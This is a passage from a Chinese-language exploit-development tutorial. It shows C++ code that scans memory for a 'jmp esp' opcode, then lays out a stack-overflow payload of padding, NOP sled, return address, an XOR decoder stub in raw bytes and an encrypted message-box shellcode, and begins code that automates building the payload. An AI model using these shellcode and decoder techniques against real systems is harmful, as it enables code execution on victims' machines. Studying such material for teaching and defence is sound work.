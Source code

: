 ```
		{
			if(ptr[position]==0xFF &&ptr[position+1]==0xE4)
			{
				int address=(int)ptr+position;
				printf("OPCODE found at 0x%x\n",address);
			}
		}
		catch(...)
		{
		int address=(int)ptr+position;
		printf("END OF 0x%x\n",address);
		done_flag=true;
		}
	}
	return 0;
}
```

如下图，获得机器码，挑选第一个地址0x77d29353，构建我们的shellcode

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-2/2-1.png)


初步设想shellcode的结构为：

`填充数据(长度44)+偏移长度+jmp esp的机器码+解码器+加密的弹框shellcode+结束字符`

具体数据为：

`"\x34\x33\x32\x31“*11+"\x90\x90\x90\x90\x90\x90\x90\x90"+"\x53\x93\xD2\x77"+"\x83\xC2\x14\x33\xC9\x8A\x1C\x0A\x80\xF3\x44\x88\x1C\x0A\x41\x80\xFB\x91\x75\xF1"+加密的弹框shellcode+\xD5`

通过程序自动实现此过程，代码如下：

```
#include <windows.h>
size_t GetSize(char * szFilePath)
{
	size_t size;
	FILE* f = fopen(szFilePath, "rb");
	fseek(f, 0, SEEK_END);
	size = ftell(f);
	rewind(f);
	fclose(f);
	return size;
}
unsigned char* ReadBinaryFile(char *szFilePath, size_t *size)
{
	unsigned char *p = NULL;
	FILE* f = NULL;
	size_t res = 0;
	*size = GetSize(szFilePath);
	if (*size == 0) return NULL;		
	f = fopen(szFilePath, "rb");
	if (f == NULL)
	{
		printf("Binary file does not exists!\n");
		return 0;
	}
	p = new unsigned char[*size];
	rewind(f);
	res = fread(p, sizeof(unsigned char), *size, f);
	fclose(f);
	if (res == 0)
	{
		delete[] p;
		return NULL;
```